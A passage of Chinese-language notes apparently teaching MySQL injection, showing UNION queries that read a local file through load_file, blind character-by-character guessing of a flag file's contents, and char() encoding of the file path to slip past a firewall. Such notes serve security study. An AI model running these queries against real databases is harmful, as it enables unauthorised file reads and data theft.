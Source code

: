 union后的红色部分，成功读到了c:/clog.txt的内容，在回显第三行

前两行是第一个select的。

**绿色是记得union时，切记保持字段数和第一个select一致！2个字段，易错。**

**在where中：**

![](img/a23a738113b52f979fe1c48bd27fcfca.png)

select * from goods where id=1 and substr( load_file('c:/clog.txt'),1,1 )='a';

select * from goods where id=1 and substr( load_file('c:/clog.txt'),1,1 )='f';

load_file获得的内容是flag 猜第一个字符是a无返回，猜是f正常满足where id=1 and true

（题外话：直接在MYSQL中可以select附加insert语句，但PHP函数mysql_query不能执行）

### 2、char()函数

用来ascii码转字符串。

它可以配合load_file函数，作为其参数过防火墙。

select char(97,98,99);

可以得到abc

配合用法：

![](img/6e2750b56d8afb46bd68e4e300878091.png)

char(99,58,47,99,108,111,103,46,116,120,116)
